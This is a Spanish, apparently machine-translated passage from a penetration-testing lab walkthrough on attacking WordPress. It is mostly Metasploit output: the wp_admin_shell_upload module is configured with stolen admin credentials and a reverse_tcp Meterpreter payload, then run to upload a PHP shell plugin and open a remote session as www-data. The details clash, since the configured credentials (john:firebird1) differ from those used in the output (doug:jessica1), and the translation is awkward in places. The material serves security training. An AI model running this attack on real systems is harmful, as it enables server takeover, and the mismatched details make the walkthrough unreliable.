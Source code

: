 Entonces podemos emitir el`show options`Comandar para asegurarse de que todo esté configurado correctamente. En este ejemplo de laboratorio, debemos especificar tanto el VHOST como la dirección IP, o el exploit fallará con el error`Exploit aborted due to failure: not-found: The target does not appear to be using WordPress`.

Atacando a WordPress

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WordPress

```

Una vez que estamos satisfechos con la configuración, podemos escribir`exploit`y obtener una carcasa inversa. Desde aquí, podríamos comenzar a enumerar el host para datos o rutas confidenciales para la escalada de privilegios verticales/horizontales y el movimiento lateral.

Atacando a WordPress

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)

```